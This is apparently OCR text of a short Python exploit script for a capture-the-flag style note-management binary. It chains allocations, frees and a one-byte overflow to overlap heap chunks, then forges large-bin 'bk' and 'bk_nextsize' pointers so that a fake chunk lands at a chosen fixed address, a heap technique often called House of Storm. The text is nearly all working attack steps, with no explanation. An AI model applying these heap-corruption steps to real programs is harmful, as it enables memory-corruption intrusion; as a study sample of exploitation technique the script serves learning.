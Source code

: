 ```python
storage = 0xABCD0100
fake_chunk = storage - 0x20


alloc(0x18) #0
alloc(0x508) #1
alloc(0x18) #2

editnote(1,'h'*0x4f0+p64(0x500))



alloc(0x18) # 3
alloc(0x508) # 4
alloc(0x18) # 5
editnote(4,'h'*0x4f0+p64(0x500))
alloc(0x18) # 6

delnote(1)
#debug()
editnote(0,'h'*0x18)
alloc(0x18) #1
#debug()
alloc(0x4d8) #7

#debug()
delnote(1)
delnote(2)
#debug()
alloc(0x38) # 1
alloc(0x4e8) # 2
#debug()



delnote(4)
editnote(3,'h'*0x18)
alloc(0x18) #4
alloc(0x4d8) #8
delnote(4) 
delnote(5)
#debug()

alloc(0x48) # 4
#debug()

delnote(2) 
#debug()
alloc(0x4e8) #2
#debug()
delnote(2)


p1 = p64(0)*2 + p64(0) + p64(0x4f1) #size
p1 += p64(0) + p64(fake_chunk)      #bk
editnote(7, p1)

p2 = p64(0)*4 + p64(0) + p64(0x4e1) #size
p2 += p64(0) + p64(fake_chunk+8)    #bk, for creating the "bk" of the faked chunk to avoid crashing when unlinking from unsorted bin
p2 += p64(0) + p64(fake_chunk-0x18-5)   #bk_nextsize, for creating the "size" of the faked chunk, using misalignment tricks
editnote(8, p2)
```